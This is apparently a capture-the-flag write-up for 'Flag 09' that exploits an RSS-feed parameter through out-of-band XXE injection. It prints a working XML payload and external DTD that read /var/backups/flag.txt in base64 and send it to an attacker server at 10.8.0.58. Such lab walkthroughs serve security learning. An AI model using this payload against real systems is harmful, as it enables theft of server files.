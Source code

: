 # Flag 09

We are presented with page that pullls an rss feed.

![474f68fa33bdb4d1d232de7e8e2861a8.png](../_resources/474f68fa33bdb4d1d232de7e8e2861a8.png)

![d4821d361fff52e4d7845f4ae3290f82.png](../_resources/d4821d361fff52e4d7845f4ae3290f82.png)

Let try to play with this parameter in burp.

![eaa093b9df46453fbca881fff3baad6d.png](../_resources/eaa093b9df46453fbca881fff3baad6d.png)

If we try to read a file in the webroot it gives an error indicating that it's expecting a xml file.

![bd6f003927c73d72cf2a280c9e751ab7.png](../_resources/bd6f003927c73d72cf2a280c9e751ab7.png)

At this point, it's obvious that we are going to need to perform an out-of-band XXE injection. And they gave us hint that the flag is in **/var/backups/**.

I created a xml file that's going to declare a **DTD** file as an entity.
Inside the DTD we are going to declare another entity that will represents the file we want to read (encoded in base64) and send it to my own server.

Content of xml file:
```
<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE XXE [

<!ENTITY % EvilDTD SYSTEM "http://10.8.0.58/oob.dtd">

%EvilDTD;

%param1;

%exfil;

]>

<login>
 oi
</login>
```

Content of DTD file:
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/backups/flag.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://10.8.0.58:5000/?p=%data;'>">
```

We fire up 2 python servers and let the magic happen

![be361919c8acb8b183d31e532d5d3872.png](../_resources/be361919c8acb8b183d31e532d5d3872.png)

We just have to base64 decode it and voilà.
![f5bec0fee64e0224164775c57030f224.png](../_resources/f5bec0fee64e0224164775c57030f224.png)